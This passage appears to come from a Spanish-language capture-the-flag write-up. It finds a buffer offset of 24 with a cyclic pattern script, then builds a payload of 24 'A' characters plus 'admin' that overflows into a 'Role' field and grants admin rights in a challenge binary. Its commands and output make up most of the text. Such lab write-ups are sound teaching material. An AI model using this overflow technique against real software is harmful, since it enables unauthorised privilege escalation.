 Ahora al repetir el proceso, en vez de introducir `A` introducimos el patrón creado y copiamos la secuencia que se encuentra en el campo `Role`
![Write-up Image](images/Screenshot_24.png)

Y ya tenemos el offset.
```shell
python3 pattern.py Aa8Aa9Ab0Ab1Ab2
Pattern Aa8Aa9Ab0Ab1Ab2 first occurrence at position 24 in pattern.
```

Ahora generamos el "payload" para cambiar nuestro rol.
```shell
$ python3
Python 3.11.2 (main, May  2 2024, 11:59:08) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print("A"*24 + "admin")
AAAAAAAAAAAAAAAAAAAAAAAAadmin
```

Y conseguimos cambiar nuestro rol a admin en el binario.
![Write-up Image](images/Screenshot_25.png)
